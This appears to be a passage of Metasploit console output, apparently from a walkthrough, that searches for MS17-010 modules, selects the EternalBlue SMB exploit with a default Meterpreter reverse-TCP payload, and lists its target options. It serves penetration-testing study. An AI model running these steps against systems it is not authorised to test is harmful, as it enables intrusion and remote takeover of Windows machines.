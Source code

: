 Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > 
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github
                                             .com/rapid7/metasploit-framework/wiki/
                                             Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use f
                                             or authentication. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows E
                                             mbedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specif
                                             ied username
   SMBUser                         no        (Optional) The username to authenticat
                                             e as
   VERIFY_ARCH    true             yes       Check if remote architecture matches e
                                             xploit Target. Only affects Windows Se
                                             rver 2008 R2, Windows 7, Windows Embed
                                             ded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Tar
                                             get. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standa
                                             rd 7 target machines.
